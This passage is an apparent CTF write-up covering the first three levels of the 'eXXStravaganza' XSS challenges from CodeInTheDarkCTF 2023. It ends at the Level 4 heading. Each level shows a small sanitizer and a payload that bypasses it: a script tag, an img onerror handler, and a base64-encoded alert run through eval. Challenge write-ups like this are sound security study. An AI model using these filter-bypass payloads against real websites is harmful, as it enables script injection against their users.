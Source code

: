 ```yaml
---
layout: post
title:  "CodeInTheDarkCTF 2023 writeups"
categories: [ctf]
tags: [xss]
img_dir: "/assets/2023-10-08-eXSStravaganza/images"   # <— nuovo
description: "Writeups of some XSS challenges from CodeInTheDark CTF"
---
```



# eXXStravaganza 
For the eXXStravaganza series, one must exploit an XSS vulnerability that triggers an "alert(1)" without any user interaction. The challenges in this series all occur in the same way :
- Sanitizer (javascript source code that processes our input). 
- Input (text area where we enter the payload )
- Output (frame that shows us the output of the html page)
- MiniBrowser (browser where our html page is rendered)
![]({{ page.img_dir | relative_url }}/xss1.png)

# Level 1 
This is the first level , very simple , a warmup 
just enter `<script>alert(1)</script>` as input to trigger the alert 

# Level 2
Sanitizer : 
```javascript
function sanitize(input) {
    // no scripts!
    if (input.toLowerCase().includes('script')) {
        return 'NO!';
    }
    return input;
}
```
In this case we cannot use the `<script>` tag and there are many ways to bypass it , I used the `<img>` tag :
```html
<img/src=x onerror=alert(1)>
```

# Level 3
Sanitizer
```javascript
function sanitize(input) {
    // no alert!
    if (input.toLowerCase().includes('alert')) {
        return 'NO!';
    }
    return input;
}
```
In this case we cannot use the word `alert` , so we can use a base64 encoding and run it with `eval()` function :
```html
<script> eval(atob("YWxlcnQoMSk=")) </script>
```
# Level 4